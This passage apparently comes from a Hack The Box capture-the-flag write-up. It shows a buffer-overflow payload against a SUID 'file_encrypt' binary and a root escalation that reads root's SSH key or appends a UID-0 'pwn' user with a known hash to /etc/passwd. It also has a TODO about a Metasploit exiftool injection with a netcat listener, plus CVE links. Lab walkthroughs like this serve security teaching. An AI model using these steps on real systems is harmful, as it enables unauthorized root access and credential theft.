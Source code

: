 ```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[XUV\x5b\x58\x55\x56 is the most import.
We need overflow the name to the entrance of the encrypt function:
gdb file_encrypt
starti
break *encrypt
We can see the address of the encrypt function is 0x5655585b, and put the bytes as the Little-endian mode.

You must run the program on the path /opt/file_encrypt/file_encrypt, just because this ELF file has the SUID and it works as root.
We can read the id_rsa of root, or even replace the /etc/passwd file. Both solutions ok, just select one as you like.

If you want to get the replacement of /etc/passwd using your own file, you must not put an empty hash to the new user.
Generate the password as below but not using the salt:
openssl passwd -1 pass123
You will get the random hash like this: $1$cTbjm0zE$RbrZimZvyDvkxP2rycuKi1
Add the hash to the new user pwn,  and put them the passwd file:
echo 'pwn:$1$cTbjm0zE$RbrZimZvyDvkxP2rycuKi1:0:0:root:/root:/bin/bash' >> passwd

Finally, get the root:
su pwn
pass123
```

## TODO

https://www.rapid7.com/db/modules/exploit/unix/fileformat/exiftool_djvu_ant_perl_injection/

Create ur exploit using unix/fileformat/exiftool_djvu_ant_perl_injection in metasploit, upload the generated .jpg file and start ur netcat listener

[author-profile]: https://app.hackthebox.com/users/172213

[blog-posts]: images/screenshots/blog-posts.png
[cmsms-version]: images/screenshots/cmsms-version.png
[cmsms-exploit]: https://www.rapid7.com/db/modules/exploit/multi/http/cmsms_object_injection_rce/
[cve-2019-9053]: https://www.exploit-db.com/exploits/46635
[cve-2019-9060]: https://nvd.nist.gov/vuln/detail/CVE-2019-9060
[user-profile]: images/screenshots/profile.png
